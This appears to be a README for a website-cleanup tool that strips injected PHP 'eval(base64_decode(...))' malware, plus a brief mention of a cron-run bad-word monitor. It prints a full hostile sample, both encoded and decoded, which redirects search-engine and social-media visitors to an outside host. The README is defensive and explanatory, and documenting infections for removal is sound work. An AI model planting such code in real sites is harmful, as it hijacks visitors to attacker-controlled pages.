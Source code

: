 iexploit cleaner
==============

Removes common eval exploit code will have something similar to this:

eval(base64_decode("DQplcnJvcl9yZXBvcnRpbmcoMCk7DQokcWF6cGxtPWhlYWRlcnNfc2VudCgpOw0KaWYgKCEkcWF6cGxtKXsNCiRyZWZl
cmVyPSRfU0VSVkVSWydIVFRQX1JFRkVSRVInXTsNCiR1YWc9JF9TRVJWRVJbJ0hUVFBfVVNFUl9BR0VOVCddOw0KaWYgKCR1YWcpIHsNCmlmICgh
c3RyaXN0cigkdWFnLCJNU0lFIDcuMCIpIGFuZCAhc3RyaXN0cigkdWFnLCJNU0lFIDYuMCIpKXsKaWYgKHN0cmlzdHIoJHJlZmVyZXIsInlhaG9v
Iikgb3Igc3RyaXN0cigkcmVmZXJlciwiYmluZyIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsInJhbWJsZXIiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJsa
XZlLmNvbSIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsIndlYmFsdGEiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJiaXQubHkiKSBvciBzdHJpc3RyKCRyZWZ
lcmVyLCJ0aW55dXJsLmNvbSIpIG9yIHByZWdfbWF0Y2goIi95YW5kZXhcLnJ1XC95YW5kc2VhcmNoXD8oLio/KVwmbHJcPS8iLCRyZWZlcmVyKSBvc
iBwcmVnX21hdGNoICgiL2dvb2dsZVwuKC4qPylcL3VybFw/c2EvIiwkcmVmZXJlcikgb3Igc3RyaXN0cigkcmVmZXJlciwibXlzcGFjZS5jb20iKSB
vciBzdHJpc3RyKCRyZWZlcmVyLCJmYWNlYm9vay5jb20vbCIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsImFvbC5jb20iKSkgew0KaWYgKCFzdHJpc3RyK
CRyZWZlcmVyLCJjYWNoZSIpIG9yICFzdHJpc3RyKCRyZWZlcmVyLCJpbnVybCIpKXsNCmhlYWRlcigiTG9jYXRpb246IGh0dHA6Ly9vbm90aXcuZG5
zZXQuY29tLyIpOw0KZXhpdCgpOw0KfQp9Cn0NCn0NCn0="));

That decodes to:


error_reporting(0);
$qazplm=headers_sent();
if (!$qazplm){
$referer=$_SERVER['HTTP_REFERER'];
$uag=$_SERVER['HTTP_USER_AGENT'];
if ($uag) {
if (!stristr($uag,"MSIE 7.0") and !stristr($uag,"MSIE 6.0")){
if (stristr($referer,"yahoo") or stristr($referer,"bing") or stristr($referer,"rambler") or stristr($referer,"live.com") or stristr($referer,"webalta") or stristr($referer,"bit.ly") or stristr($referer,"tinyurl.com") or preg_match("/yandex\.ru\/yandsearch\?(.*?)\&lr\=/",$referer) or preg_match ("/google\.(.*?)\/url\?sa/",$referer) or stristr($referer,"myspace.com") or stristr($referer,"facebook.com/l") or stristr($referer,"aol.com")) {
if (!stristr($referer,"cache") or !stristr($referer,"inurl")){
header("Location: http://onotiw.dnset.com/");
exit();
}
}


Which would send anyone that came from facebookl, yahoo, or google to:

http://onotiw.dnset.com/

badword monitor
===============

Plugin your url, your website, and put on a cron to run once a day






